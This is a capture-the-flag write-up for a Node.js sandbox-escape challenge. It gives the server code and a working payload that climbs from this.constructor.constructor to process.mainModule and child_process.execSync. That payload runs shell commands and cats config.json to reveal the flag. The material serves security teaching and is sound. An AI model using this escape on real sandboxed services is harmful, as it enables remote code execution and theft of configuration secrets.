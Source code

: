 ```yaml
---
layout: writeup
title: 'Day 10: &gt;_ Run, Node, Run'
level:
difficulty:
points:
categories: []
tags: []
flag:
---
```

## Challenge

Santa has practiced his nodejs skills and wants his little elves to
practice it as well, so the kids can get the web- app they wish for.

He made a little practice- sandbox for his elves. Can you break out?

Location: http://whale.hacking-lab.com:3000/

## Solution

We can enter some code in a webform and the output is returned to us

![](writeupfiles/day10-screenshot.png)

We are also given the serverside code:

    const {flag, port} = require("./config.json");
    const sandbox = require("sandbox");
    const app = require("express")();
    
    app.use(require('body-parser').urlencoded({ extended: false }));
    
    app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
    app.get("/code", (req, res) => res.sendFile(__filename));
    
    app.post("/run", (req, res) => {
    
    	if (!req.body.run) {
    		res.json({success: false, result: "No code provided"});
    		return;
    	}
    
    	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";
    
    	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));
    
    });
    
    app.listen(port);
{: .language-js}

So the value we want is in a variable with a random name
`flag_<64randomchars>`. So we either need to get it to spit out all
variable names, or break out of the sandbox and print `boiler`, hmmm

We play around a bit but nothing obvious:

    >> eval(6+6)
    12
    
    >> Object.keys(this)
    [ 'print', 'console', 'process', 'postMessage' ]
    
    >> Object.getOwnPropertyNames(this)
    [ 'print',
    'console',
    'process',
    'postMessage',
    'Object',
    'Function',
    'Array',
    'Number',
    'parseFloat',
    'parseInt',
    'Infinity',
    'NaN',
    'undefined',
    'Boolean',
    'String',
    'Symbol',
    'Date',
    'Promise',
    'RegExp',
    'Error',
    'EvalError',
    'RangeError',
    'ReferenceError',
    'SyntaxError',
    'TypeError',
    'URIError',
    'JSON',
    'Math',
    'Intl',
    'ArrayBuffer',
    'Uint8Array',
    'Int8Array',
    'Uint16Array',
    'Int16Array',
    'Uint32Array',
    'Int32Array',
    'Float32Array',
    'Float64Array',
    'Uint8ClampedArray',
    'BigUint64Array',
    'BigInt64Array',
    'DataView',
    'Map',
    'Set',
    'WeakMap',
    'WeakSet',
    'Proxy',
    'Reflect',
    'decodeURI',
    'decodeURIComponent',
    'encodeURI',
    'encodeURIComponent',
    'escape',
    'unescape',
    'eval',
    'isFinite',
    'isNaN',
    'SharedArrayBuffer',
    'Atomics',
    'BigInt',
    'WebAssembly' ]

Then we find this github issue discussing vulnerabilities in this method
of sandboxing: https://github.com/gf3/sandbox/issues/50

So we can get RCE by inputting the following:

    >>> new Function(
    "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("pwd")
    
    { type: 'Buffer', data: [ 47, 97, 112, 112, 10 ] }

We see that something is returned, but the output isn't very useful to
us, so we set the child process to inherit stdio from parent by setting
`{stdio: 'inherit'}`

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("pwd", {stdio: 'inherit'})
    
    JSON Error (data was "/app
    {"result":"null","console":[]}")

That's better! Now let's just read the config file since that will
contain our flag:

    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("ls", {stdio: 'inherit'})
    
    JSON Error (data was "config.json
    config.json~
    docker-compose.yaml
    dockerfile
    dockerfile~
    index.html
    main.js
    node_modules
    package-lock.json
    package.json
    run.js
    {"result":"null","console":[]}")
    
    >>>
    new Function(
      "return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())"
    )()("child_process").execSync("cat config.json", {stdio: 'inherit'})
    
    JSON Error (data was "{
    "flag":"HV18-YtH3-S4nD-bx5A-Nt4G",
    "port":3000
    }
    
    {"result":"null","console":[]}")

